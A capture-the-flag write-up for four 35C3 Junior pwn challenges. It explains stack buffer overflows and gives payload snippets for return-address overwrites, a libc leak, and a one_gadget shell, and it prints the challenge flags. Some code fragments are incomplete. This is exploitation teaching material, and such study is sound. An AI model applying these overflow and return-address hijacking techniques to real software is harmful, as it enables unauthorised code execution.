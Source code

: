 # 35C3 Junior

  - [PWN](#pwn)
    - [1996](#1996)
    - [poet](#poet)
    - [stringmaster1](#stringmaster1)
      - [What the program do ?](#what-the-program-do)
      - [Analysis](#analysis)
      - [flow](#flow)
    - [stringmaster2](#stringmaster2)
      - [Analysis](#analysis-1)
      - [flow](#flow-1)


## PWN

### 1996
- type : Easy <font color='blue'>BOF</font>
- Directly overlap to return address to <font color='red'>spawn_shell() function </font> 
    ```python
    payload = '\x00'*1024 + '\x00'*0x18 + p64(shell_add)
    ```

> 35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14

### poet

- type : <font color='blue'>BOF</font>
- Analysis :        
    <img src='./img/02' width=400px></img>
    - Enter poet : it will be push to a complex function to calculate **POINTS**, but we don't need to care about the pointFunction!
      - 0x00000000004007b7  <rate_poem>

    - Enter author : enter author can overlap point!!!

- payload
    ```python
    payload = '\x00'*0x40 + p64(0xf4240)
    ```

> 35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39


### stringmaster1

- type : <font color='blue'>BOF</font>

#### What the program do ?
```md
[1] swap <index1> <index2>                   (Cost: 1)
Swaps the char at index1 with the char at index2
[2] replace <char1> <char2>                  (Cost: 1)
    Replaces the first occurence of char1 with char2
[3] print                                    (Cost: 1)
    Prints the current version of the string
[4] quit
    Give up and leave the game

String1: jkecntplqr
String2: eksbqudlvf


Enter the command you want to execute:
[1] swap <index1> <index2>                   (Cost: 1)
[2] replace <char1> <char2>                  (Cost: 1)
[3] print                                    (Cost: 1)
[4] quit
```

- The program generate 2 arbitrary strings, and we need to use swap, replace or print function to let string1=String2

- swap : the input will be modified to **unsigned**, so we can't pass negative number to leak
    ```C
    unsigned int i1, i2;
    cin >> i1 >> i2;
    if (cin.good() && i1 < s.length() && i2 < s.length()) {
        swap(s[i1], s[i2]);
    }
    ```

- replace : find what you enter and replace by input2
    ```C
    char c1, c2;
    cin >> c1 >> c2;
    auto index = s.find(c1);
    cout << c1 << c2 << index << endl;
    if (index >= 0) {
        s[index] = c2;
    }
    ```

#### Analysis

- The Bugs of the code comes from : 
    ```C++
    auto index = s.find(c1);
    ```
- we know that : strings end with <font color='blue'>\x00</font>, s.length() will be confined , but s.find won't. so, we can replace the known address or value, then overflow to return_addr

#### flow
1. overlap until the return addr            
    <img src='./img/03' width=500px></img>

2. replace return_main to return_shell
    ```python
    shellAddres = p32(0x4011a7)
    ```
3. Some 'a' will cause Segment Fault, so we need to compensate it by \x00
    ```python
    r.sendlineafter('> ', 'replace')
    r.sendline('a')
    r.sendline('\x00')
    ```

> 35C3_a6a9d10c61a652d23fbd0e9f73e638dac093472c

### stringmaster2

- type : <font color='blue'>BOF</font>

#### Analysis
- The same as stringmaster1, but it doesn't have <font color='blue'>spawn_shell function</font>, so we need to use **ROP or One_Gadget**


#### flow 

1. Overflow until return address

2. leak libc from <font color='blue'>libc_start_main</font>
   ```python
   leak = r.recvuntil('\xff\xff\xff')
   libc_start_main = leak[-12:-6]
   libc_start_main = list(libc_start_main)
   libc_start_main.reverse()
   libc_start_main = (''.join(libc_start_main)).encode('hex')

   libc_base = int(libc_start_main, 16) - 0xe7 - 0x21ab0
   ```

3. replace libc_start_main by <font color=blue>one_gadget</font>
    - because libc only diff from the Least 4 bytes, provided we can modify it
   ```python
   one_gadget = 0x10a38c
   payload = libc_base+one_gadget

   for i, val in enumerate(shell):
   replaceAndSwap(val, i)
   ```

> 35C3_fb23c497dbbf35b0f13b9d16311fa59cf8ac1b02

